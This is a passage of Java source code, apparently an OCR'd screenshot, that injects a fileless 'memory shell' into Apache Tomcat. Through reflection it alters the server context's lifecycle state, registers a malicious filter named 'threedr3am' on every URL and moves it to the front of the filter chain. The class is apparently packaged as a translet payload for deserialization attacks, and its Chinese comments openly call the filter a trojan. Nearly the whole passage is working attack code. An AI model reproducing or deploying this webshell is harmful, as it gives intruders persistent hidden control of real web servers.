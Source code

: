                             }
                        }
                        if (standardContext != null) {
                            //修改状态，要不然添加不了
                            java.lang.reflect.Field stateField = org.apache.catalina.util.LifecycleBase.class
                                .getDeclaredField("state");
                            stateField.setAccessible(true);
                            stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTING_PREP);
                            //创建一个自定义的Filter马
                            Filter threedr3am = new TomcatShellInject();
                            //添加filter马
                            javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext
                                .addFilter("threedr3am", threedr3am);
                            filterRegistration.setInitParameter("encoding", "utf-8");
                            filterRegistration.setAsyncSupported(false);
                            filterRegistration
                                .addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false,
                                    new String[]{"/*"});
                            //状态恢复，要不然服务不可用
                            if (stateField != null) {
                                stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTED);
                            }

                            if (standardContext != null) {
                                //生效filter
                                java.lang.reflect.Method filterStartMethod = org.apache.catalina.core.StandardContext.class
                                    .getMethod("filterStart");
                                filterStartMethod.setAccessible(true);
                                filterStartMethod.invoke(standardContext, null);

                                //把filter插到第一位
                                org.apache.tomcat.util.descriptor.web.FilterMap[] filterMaps = standardContext
                                    .findFilterMaps();
                                for (int i = 0; i < filterMaps.length; i++) {
                                    if (filterMaps[i].getFilterName().equalsIgnoreCase("threedr3am")) {
                                        org.apache.tomcat.util.descriptor.web.FilterMap filterMap = filterMaps[i];
                                        filterMaps[i] = filterMaps[0];
                                        filterMaps[0] = filterMap;
                                        break;
                                    }
                                }
                            }
                        }
                    }
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
